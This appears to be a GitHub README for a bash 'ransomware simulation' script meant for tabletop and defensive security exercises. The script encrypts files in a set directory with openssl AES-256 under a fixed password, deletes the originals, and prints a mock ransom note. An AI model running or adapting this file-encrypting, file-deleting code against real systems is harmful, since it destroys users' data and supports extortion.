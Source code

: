 # ransomware simulation script
Created a script that has similar effects of ransomware for use in tabletop security exercises and defense exercises. 

The BASH scripting language was used to create this script but it can be edited for use on Windows systems. The script encrypts the files on the specified directory using AES256 symmetric but it can always be decrypted with a password. 

##SCRIPT

##Directory to "encrypt" files in <br />
TARGET_DIR="/home/workstation/Downloads" #input the path to the directory you want to encrypt <br />

##Encryption key<br />
ENCRYPTION_KEY="passwords"<br />

##Check if the target directory exists<br />
if [ ! -d "$TARGET_DIR" ]; then<br />
  echo "Directory $TARGET_DIR does not exist."<br />
  exit 1<br />
fi<br />

##Encrypt existing files using AES-256<br />
echo "Encrypting files in $TARGET_DIR..."<br />
for FILE in "$TARGET_DIR"/*.txt.cis; do<br />
  if [ -f "$FILE" ]; then<br />
    # Encrypt the file in aes256 and add .encrypted to the end<br />
    openssl enc -aes-256-cbc -in "$FILE" -out "${FILE}.encrypted" -pass pass:"$ENCRYPTION_KEY"<br />
    rm "$FILE" # Remove original file<br />
    echo "$FILE has been encrypted."<br />
  fi<br />
done<br />

##Display ransom note<br />
echo -e "\nYour files have been 'encrypted'. To recover them, follow the steps listed. report and we sell data"<br />
